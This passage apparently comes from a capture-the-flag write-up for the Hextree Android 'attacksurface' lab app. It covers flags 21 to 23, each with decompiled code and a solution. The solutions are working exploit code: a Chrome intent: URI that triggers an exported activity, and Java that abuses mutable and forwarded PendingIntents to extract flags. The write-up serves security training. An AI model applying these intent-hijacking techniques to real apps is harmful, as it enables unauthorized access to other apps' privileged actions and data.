            if (extras == null) {
                finish();
            }
            String string = extras.getString("action", "open");
            if (extras.getBoolean("flag", false) && string.equals("flag")) {
                this.f.addTag(Boolean.valueOf(extras.getBoolean("flag", false)));
                this.f.addTag(string);
                success(this);
            } else if (string.equals("open")) {
                Toast.makeText(this, "Website: " + extras.getString("message", "open"), 1).show();
            }
        }
```

#### Solution

The Chrome `intent:` scheme solves this by allowing a site to create explicit intents so we can create our own and send it . using hex site  and running it on our phone
```txt
intent:#Intent;package=io.hextree.attacksurface;action=io.hextree.action.GIVE_FLAG;S.action=flag;S.open=flag;B.flag=true;end;
```

### Flag 22
#### Code analysis
```java
    public void onCreate(Bundle bundle) {
        PendingIntent pendingIntent = (PendingIntent) getIntent().getParcelableExtra("PENDING");
        if (pendingIntent != null) {
            try {
                Intent intent = new Intent();
                intent.getExtras();
                intent.putExtra("success", true);
                this.f.addTag(intent);
                intent.putExtra("flag", this.f.appendLog(this.flag));
                pendingIntent.send(this, 0, intent);
                success(null, this);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

```

The activity checks for  a Pending intent named `"PENDING"` and if a result is found it adds to the intent `"success"` `true` & `"flag"` then send's it back 

#### Solution

We need to send a Mutable intent so that the app can add content to it

```java
	Context context = this;
	Intent receivedIntent = getIntent();
	
	if (receivedIntent.getParcelableExtra("PENDING") != null) {  
	    String flag = receivedIntent.getStringExtra("flag");  
	    Log.d("Flag22", flag);  
	}else{  
	    Log.d("Flag22", "???");
	    Intent atackIntent = new Intent();  
		atackIntent.setClassName(getPackageName(),getPackageName()+ ".pendingIntent");  
		  
		PendingIntent pendingIntent = PendingIntent.getActivity(context, 0, atackIntent, PendingIntent.FLAG_MUTABLE);  
		  
		Intent senderIntent = new Intent();  
		senderIntent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag22Activity");  
		senderIntent.putExtra("PENDING", pendingIntent);  
		startActivity(senderIntent);
}
```

### Flag 23
#### Code analysis
```java
    public void onCreate(Bundle bundle) {
        Intent intent = getIntent();
        String action = intent.getAction();
        if (action == null) {
            Intent intent2 = new Intent("io.hextree.attacksurface.GIVE_FLAG");
            intent2.setClassName(getPackageName(), Flag23Activity.class.getCanonicalName());
            PendingIntent activity = PendingIntent.getActivity(getApplicationContext(), 0, intent2, 33554432);
            Intent intent3 = new Intent("io.hextree.attacksurface.MUTATE_ME");
            intent3.addFlags(8);
            intent3.putExtra("pending_intent", activity);
            startActivity(intent3);
            return;
        }
        if (action.equals("io.hextree.attacksurface.GIVE_FLAG")) {
            if (intent.getIntExtra("code", -1) == 42) {
                this.f.addTag(42);
                success(this);
            } else {
                Toast.makeText(this, "Condition not met for flag", 0).show();
            }
        }
    }

```

First it looks for an intent and if `action` is empty it creates a pending intent with `intent2` as it's base with action `"io.hextree.attacksurface.GIVE_FLAG"` and a third intent with action `"io.hextree.attacksurface.MUTATE_ME"`, then it checks if received response has action `io.hextree.attacksurface.GIVE_FLAG`  or not and if so does it has an extra `code` with value 42 ?

#### Solution

create a class that will receive intent with the specified action `"io.hextree.attacksurface.MUTATE_ME"`
```xml
<activity  
    android:name=".pendingHelper"  
    android:exported="true" >  
    <intent-filter>        
	    <action android:name="io.hextree.attacksurface.MUTATE_ME"/>  
        <category android:name="android.intent.category.DEFAULT"/>  
    </intent-filter>
</activity>
```

Then when getting the intent we look for pending intent with name `pending_intent`, Then create an intent with action `"io.hextree.attacksurface.GIVE_FLAG"` and but extra `code` with value `42` and try to send it (you can ignore the condition it's for debugging to help )

```java
Intent receivedIntent = getIntent();  
if (receivedIntent.getParcelableExtra("pending_intent") != null) {  
    PendingIntent pendingIntent = receivedIntent.getParcelableExtra("pending_intent");  
  
    Intent intent = new Intent();  
    intent.setAction("io.hextree.attacksurface.GIVE_FLAG");  
    intent.putExtra("code", 42);  
  
  
    try {  
        pendingIntent.send(this, 0, intent);  
    } catch (PendingIntent.CanceledException e) {  
        throw new RuntimeException(e);  
    }  
}else{
	Log.d("Nothing","No pending intent recived" );
}
```
